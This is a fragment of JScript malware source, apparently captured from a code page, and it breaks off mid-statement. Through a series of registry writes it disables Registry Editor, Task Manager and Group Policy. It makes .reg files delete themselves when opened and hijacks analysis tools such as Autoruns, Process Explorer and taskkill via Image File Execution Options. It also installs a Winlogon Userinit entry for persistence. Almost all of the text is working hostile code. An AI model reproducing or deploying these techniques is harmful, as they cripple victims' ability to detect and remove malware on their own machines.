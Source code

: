         shell.RegDelete('HKCR\\' + RegReadItem('.JSE') + '\\Shell\\Open2\\Command\\');
    } catch (e) {}
    try {
        shell.RegDelete('HKCR\\' + RegReadItem('.JSE') + '\\ShellEx\\PropertySheetHandlers\\WSHProps\\');
    } catch (e) {}
    try {
        // 修改'.reg'文件的打开方式，打开即删除
        shell.RegWrite('HKCR\\' + RegReadItem('.reg') + '\\shell\\open\\command\\', 'cmd.exe /c del /q /f "%1"', 'REG_EXPAND_SZ');
    } catch (e) {}
    try {
        // 禁止用户修改文件属性
        shell.RegWrite('HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\Explorer\\NoFileAssociate', '1', 'REG_DWORD');
    } catch (e) {}
    try {
        // 禁用注册表编辑器
        shell.RegWrite('HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\DisableRegistryTools', '1', 'REG_DWORD');
    } catch (e) {}
    try {
        // 禁用任务管理器
        shell.RegWrite('HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\DisableTaskMgr', '1', 'REG_DWORD');
    } catch (e) {}
    try {
        // 禁用组策略管理器
        shell.RegWrite('HKCU\\Software\\Policies\\Microsoft\\MMC\\RestrictToPermittedSnapins', '1', 'REG_DWORD');
    } catch (e) {}
    try {
        // 映像劫持attrib.exe，不回显信息
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\attrib.exe\\Debugger', 'cmd.exe /c rem');
    } catch (e) {}
    try {
        // 映像劫持autoruns.exe，启动即删除
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\autoruns.exe\\Debugger', 'cmd.exe /c del /q /f');
    } catch (e) {}
    try {
        // 映像劫持procexp.exe，启动即删除
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\procexp.exe\\Debugger', 'cmd.exe /c del /q /f');
    } catch (e) {}
    try {
        // 映像劫持reg.exe，不回显信息
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\reg.exe\\Debugger', 'cmd.exe /c rem');
    } catch (e) {}
    try {
        // 映像劫持RegAlyzer.exe，启动即删除
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\RegAlyzer.exe\\Debugger', 'cmd.exe /c del /q /f');
    } catch (e) {}
    try {
        // 映像劫持taskkill.exe,不回显信息
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\taskkill.exe\\Debugger', 'cmd.exe /c rem');
    } catch (e) {}
    try {
        // 创建自启动项
        shell.RegWrite('HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Userinit', SystemPath + '\\userinit.exe,wscript.exe //e:jscript ' + SysPath + ' /e');